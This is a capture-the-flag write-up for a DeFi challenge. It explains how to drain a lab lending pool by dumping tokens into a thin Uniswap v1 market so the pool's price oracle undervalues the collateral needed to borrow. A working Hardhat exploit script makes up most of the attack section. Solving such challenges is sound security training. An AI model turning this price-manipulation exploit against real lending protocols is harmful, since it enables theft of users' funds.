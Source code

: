 # Intro

There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by taking all tokens from the lending pool. You start with 25 ETH and 1000 DVTs in balance.

# Attack explanation

Our objective is to take all the tokens from the lending pool. In order to beat the level, we need to:

1. Manipulate the Uniswap Exchange returned price.

   - The price of the token will go down as the balance goes up.
   - We can send all of our DVT tokens to the Uniswap DVT market.
   - We own 1000 DVTs, 2 order of magnitude higher than the 10 DVT liquidity of the Uniswap market. We can manipulate it with ease.

2. Borrow DVT tokens cheap.

# Attack function

We can create the following attacker script to make the attack:

```
  it("Exploit", async function () {
    // Approve tokens
    await this.token
      .connect(attacker)
      .approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);

    const now = Math.floor(new Date().getTime() / 1000);

    // Sell tokens to get ETH. The price of the token will go down as the balance goes up.
    //  _computeOraclePrice function will return a lower value and we will borrow cheap.
    await this.uniswapExchange
      .connect(attacker)
      .tokenToEthSwapInput(ATTACKER_INITIAL_TOKEN_BALANCE, 1, now + 1000);

    // Calculate deposit required to send as value in borrow tx.
    const deposit = await this.lendingPool.calculateDepositRequired(
      POOL_INITIAL_TOKEN_BALANCE
    );

    // Borrow all tokens from the lending pool, sending the deposit required.
    await this.lendingPool
      .connect(attacker)
      .borrow(POOL_INITIAL_TOKEN_BALANCE, { value: deposit });
  });
```
